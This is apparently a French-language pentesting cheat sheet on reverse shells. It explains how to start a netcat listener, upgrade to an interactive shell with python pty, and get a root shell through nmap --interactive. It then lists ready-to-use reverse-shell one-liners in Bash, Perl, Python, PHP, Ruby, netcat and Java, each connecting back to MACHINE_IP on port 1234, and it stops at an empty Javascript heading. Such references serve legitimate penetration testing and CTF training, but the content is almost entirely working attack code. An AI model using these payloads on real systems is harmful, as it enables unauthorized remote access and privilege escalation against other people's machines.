 
Un reverse shell est un code à éxécuter sur une machine cible dans le but de pouvoir executer du code shell en elle.

## __Setup Netcat Listener__

Démarrage d’un serveur **Netcat** pour être à l’**écoute d’un port**.

```shell
user@ip:~$ rlwrap nc -vnlp 1234
```

Attendez que votre [script](#__Scripts__) soit éxécuté.

Une fois le reverse shell en marche, pour switcher vers un **fully interactive shell**.

```shell
$ python -c 'import pty; pty.spawn("/bin/bash")';
```

On peut ensuite utiliser **`su`** pour se connecter.

## __Nmap --interactive__

Si notre utilisateur a les permissions d'utiliser nmap, on peut utiliser [nmap pour se connecter en root](https://gtfobins.github.io/gtfobins/nmap/#shell) sur notre shell, pour cela :

```shell
user@linux:/$ nmap --interactive
nmap> !sh
```

## __Scripts__

Pour générer des reverses shells vous pouvez utiliser le site de 0day, [revshells](https://www.revshells.com/)

### Bash

```bash
bash -i >& /dev/tcp/MACHINE_IP/1234 0>&1
```

### Perl

```perl
perl -e 'use Socket;$i="MACHINE_IP";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

### Python

```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("MACHINE_IP",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

### Php

```php
php -r '$sock=fsockopen("MACHINE_IP",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```

### Ruby

```ruby
ruby -rsocket -e'f=TCPSocket.open("MACHINE_IP",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

### Netcat

```shell
nc -e /bin/sh MACHINE_IP 1234
```

### Java

```java
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/MACHINE_IP/1234;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```

### Javascript

